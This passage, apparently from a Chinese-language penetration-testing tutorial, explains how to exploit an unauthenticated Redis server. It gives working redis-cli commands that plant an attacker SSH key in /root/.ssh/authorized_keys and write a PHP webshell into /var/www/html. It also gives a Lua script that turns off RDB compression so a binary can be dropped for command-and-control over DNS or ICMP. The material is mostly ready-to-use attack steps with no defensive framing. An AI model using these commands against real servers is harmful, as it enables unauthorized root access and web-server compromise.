 或者如下


```bash
192.168.63.130:6379> config set dir /root/.ssh/
192.168.63.130:6379> config set dbfilename authorized_keys
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n"

192.168.63.130:6379> save
```

(3).往web物理路径写webshell

当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell


```bash
192.168.63.130:6379> config set dir /var/www/html/
      192.168.63.130:6379> config set dbfilename shell.php
      192.168.63.130:6379> set x "<?php phpinfo();?>"
      192.168.63.130:6379> save
```

即可将shell写入web目录(web目录根据实际情况

(4).写二进制文件，利用dns、icmp等协议上线（tcp协议不能出网）

From:http://www.00theway.org/2017/03/27/redis_exp/

写二进制文件跟前边有所不同，原因在于使用RDB方式备份redis数据库是默认情况下会对文件进行压缩，上传的二进制文件也会被压缩，而且文件前后存在脏数据，因此需要将默认压缩关闭，并且通过计划任务调用python清洗脏数据。


```python
local function hex2bin(hexstr)
    local str = ""
    for i = 1, string.len(hexstr) - 1, 2 do
        local doublebytestr = string.sub(hexstr, i, i+1);
        local n = tonumber(doublebytestr, 16);
        if 0 == n then
            str = str .. '\00'
        else
            str = str .. string.format("%c", n)
        end
    end
    return str
end

local dir = redis.call('config','get','dir')
redis.call('config','set','dir','/tmp/')
local dbfilename = redis.call('config','get','dbfilename')
redis.call('config','set','dbfilename','t')
local rdbcompress = redis.call('config','get','rdbcompression')
redis.call('config','set','rdbcompression','no')
redis.call('flushall')

local data = '1a2b3c4d5e6f1223344556677890aa'
redis.call('set','data',hex2bin('0a7c7c7c'..data..'7c7c7c0a'))
local rst = {}
rst[1] = 'server default config'
rst[2] = 'dir:'..dir[2]
rst[3] = 'dbfilename:'..dbfilename[2]
rst[4] = 'rdbcompression:'..rdbcompress[2]
return rst
```
